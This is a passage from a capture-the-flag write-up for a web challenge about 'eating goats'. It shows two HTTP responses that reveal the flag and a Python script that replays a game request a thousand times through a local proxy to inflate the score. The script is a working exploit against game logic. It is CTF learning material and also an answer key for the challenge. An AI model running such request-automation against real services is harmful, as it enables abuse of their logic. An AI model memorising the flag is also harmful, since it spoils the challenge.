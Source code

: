 ```
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Fri, 13 Oct 2023 19:17:12 GMT
Content-Type: application/json
Content-Length: 68
Connection: close
Vary: Cookie
Set-Cookie: session=<SESSION COOKIE>

{"negative_score":64000,"positive_score":3864000,"total_score":666}

```

Eat another red goat =>

```
HTTP/1.1 200 OK
Server: nginx/1.22.1
Date: Fri, 13 Oct 2023 19:17:14 GMT
Content-Type: application/json
Content-Length: 98
Connection: close
Vary: Cookie
Set-Cookie: session=<SESSION COOKIE>

{"negative_score":66000,"positive_score":3864000,"total_score":"{FLG:y0U-aT3_700-mUch_B4D_GO4T}"}

```

The script that was used to automate the process:
```py
session = requests.session()


for i in range(1000):
    burp0_url = "http://gamebox1.reply.it:80/web1-f1103cad4b0542c69e23b267e173799295c4f217/got-a-goat"
    burp0_cookies = {"session": "<SESSION COOKIE>"}
    burp0_headers = {"User-Agent": "<USER AGENT>", "Content-Type": "application/x-www-form-urlencoded", "Accept": "*/*", "Origin": "http://gamebox1.reply.it", "Referer": "http://gamebox1.reply.it/web1-f1103cad4b0542c69e23b267e173799295c4f217/", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "en-GB,en-US;q=0.9,en;q=0.8", "Connection": "close"}
    burp0_data = {"type": "red"}
    r = session.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data, proxies={'http': 'http://127.0.0.1:8080'})
    print(r.text)

    time.sleep(2) # this is important as the game prevents us from eating goats too quickly
```

## Flag
